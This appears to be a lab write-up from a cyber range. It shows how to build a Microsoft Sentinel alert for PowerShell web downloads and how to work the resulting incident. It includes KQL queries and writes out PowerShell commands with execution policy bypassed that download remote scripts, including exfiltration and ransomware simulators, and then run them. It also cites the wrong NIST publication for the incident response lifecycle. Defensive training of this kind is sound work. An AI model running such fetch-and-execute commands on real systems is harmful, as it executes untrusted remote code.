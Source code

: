 
# Detecting Suspicious PowerShell Web Requests in Microsoft Sentinel

## Explanation
Sometimes when a bad actor has access to a system, they will attempt to download malicious payloads or tools directly from the internet to expand their control or establish persistence. This is often achieved using legitimate system utilities like PowerShell to blend in with normal activity. By leveraging commands such as `Invoke-WebRequest`, they can download files or scripts from an external server and immediately execute them, bypassing traditional defenses or detection mechanisms. 

This tactic is a hallmark of post-exploitation activity, enabling attackers to deploy malware, exfiltrate data, or establish communication channels with a command-and-control (C2) server. Detecting this behavior is critical to identifying and disrupting an ongoing attack.

When processes are executed on the local VM, logs will be forwarded to Microsoft Defender for Endpoint under the `DeviceProcessEvents` table. These logs are then sent to the Log Analytics Workspace used by Microsoft Sentinel, our SIEM. Within Sentinel, we will define an alert to trigger when PowerShell is used to download a remote file from the internet.

---

## Part 1: Create Alert Rule (PowerShell Suspicious Web Request)
I designed a Sentinel Scheduled Query Rule within Log Analytics to detect when PowerShell is used to download content using `Invoke-WebRequest`. Before creating the alert rule, I ensured the appropriate logs were available.

### KQL Query
```kql
let TargetHostname = "windows-target-1"; // Replace with the name of your VM as it shows up in the logs
DeviceProcessEvents
| where DeviceName == TargetHostname // Comment this line out for MORE results
| where FileName == "powershell.exe"
| where InitiatingProcessCommandLine contains "Invoke-WebRequest"
| order by TimeGenerated
```

Once the query was validated, I created the Scheduled Query Rule in:
- **Sentinel → Analytics → Scheduled Query Rule**

### Analytics Rule Settings:
- **Name:** PowerShell Suspicious Web Request
- **Description:** Detects when PowerShell is used to download files from the internet
- ✅ Enable the Rule
- **MITRE ATT&CK Framework Categories:** Use ChatGPT to map appropriate categories
- **Run query every:** 4 hours
- **Lookup data for the last:** 24 hours
- **Stop running query after alert is generated:** Yes
- **Entity Mappings:**
  - **Account:** Identifier → Name, Value → AccountName  
  - **Host:** Identifier → HostName, Value → DeviceName  
  - **Process:** Identifier → CommandLine, Value → ProcessCommandLine  
- ✅ Automatically create an Incident if the rule is triggered
- **Group all alerts into a single Incident per 24 hours**
- **Stop running query after alert is generated (24 hours)**


![image](https://github.com/user-attachments/assets/857852c0-e1d1-4c28-b8e5-7b92ac776d70)


---

## Part 2: Trigger Alert to Create Incident
I ensured that my VM was onboarded to MDE and had been running for several hours. If logs were missing, I manually executed the following commands on my VM to simulate malicious behavior and generate logs:

```powershell
powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/eicar.ps1' -OutFile 'C:\programdata\eicar.ps1';
powershell.exe -ExecutionPolicy Bypass -File 'C:\programdata\eicar.ps1';
```

---

## Work Incident
Following the **NIST 800-161: Incident Response Lifecycle**, I worked through the incident to completion.

### **Preparation**
- Ensured roles, responsibilities, and procedures were documented.
- Verified that necessary tools, systems, and training were in place.

### **Detection and Analysis**

Upon investigating the triggered incident “Jayda - PwerShell Suspicious Web Request” it was discovered that the following PowerShell were run on machine: windows-target-1

| Target System      | Command Executed |
|--------------------|----------------------------------------------------------------------------------------------------------------------------------|
| windows-target-1  | `powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/portscan.ps1 -OutFile C:\programdata\portscan.ps1` |
| windows-target-1  | `powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/exfiltratedata.ps1 -OutFile C:\programdata\exfiltratedata.ps1` |
| windows-target-1  | `powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/eicar.ps1 -OutFile C:\programdata\eicar.ps1` |
| windows-target-1  | `powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/pwncrypt.ps1 -OutFile C:\programdata\pwncrypt.ps1` |


#### **Findings:**
- The suspicious web request incident was triggered on 1 device by 1 user, but downloaded 4 different scripts with 4 different commands

| Script Name         | Description |
|---------------------|-------------|
| **Portscan.ps1**   | Scans a specified range of IP addresses and common ports to identify open and closed ports. Logs the results to a file. |
| **Exfiltratedata.ps1** | Generates fake employee data, compresses it using 7-Zip, and attempts to upload it to Azure Blob Storage. Also maintains a backup of the generated files. |
| **Eicar.ps1**      | Creates an EICAR test file to simulate a potential malware detection scenario for testing antivirus responses. |


# Investigation Summary

After investigating with Defender for Endpoint, it was determined that the downloaded scripts actually did run. See the following query:

```kusto
let TargetHostname = "windows-target-1"; // Replace with the name of your VM as it shows up in the logs
let ScriptNames = dynamic(["eicar.ps1", "exfiltratedata.ps1", "portscan.ps1", "pwncrypt.ps1"]); // Add the name of the scripts that were downloaded
DeviceProcessEvents
| where DeviceName == TargetHostname // Comment this line out for MORE results
| where FileName == "powershell.exe"
| where ProcessCommandLine contains "-File" and ProcessCommandLine has_any (ScriptNames)
| order by TimeGenerated
| project TimeGenerated, AccountName, DeviceName, FileName, ProcessCommandLine
```


To verify whether the scripts were executed, I ran:

```kql
let TargetHostname = "windows-target-1";
let ScriptNames = dynamic(["eicar.ps1", "exfiltratedata.ps1", "portscan.ps1", "pwncrypt.ps1"]);
DeviceProcessEvents
| where DeviceName == TargetHostname
| where FileName == "powershell.exe"
| where ProcessCommandLine contains "-File" and ProcessCommandLine has_any (ScriptNames)
| order by TimeGenerated
| project TimeGenerated, AccountName, DeviceName, FileName, ProcessCommandLine
```

---

### **Containment, Eradication, and Recovery**
- Isolated the affected system using Microsoft Defender for Endpoint.
- Performed an antimalware scan in MDE.
- If any scripts were executed, I analyzed their content.
- Removed the threat and restored the system to normal.

---

## **Post-Incident Activities**
- Documented findings and lessons learned.
- Updated policies to prevent recurrence, such as restricting PowerShell usage.
- Closed out the incident within Sentinel as a **True Positive**.

![image](https://github.com/user-attachments/assets/d9ad7290-5991-4a5a-8ec4-16202bb0a9c1)




### **Closure**
- Reviewed and confirmed incident resolution.
- Finalized reporting and closed the case.

---

## **Conclusion**
By implementing this alert rule and working through the incident, I successfully detected and responded to a potential security threat using Microsoft Sentinel and Microsoft Defender for Endpoint. This process reinforced best practices for threat hunting and security operations while highlighting how attackers can leverage legitimate tools like PowerShell for malicious activity. Moving forward, refining detection rules and implementing additional controls will further enhance security posture and threat mitigation efforts.
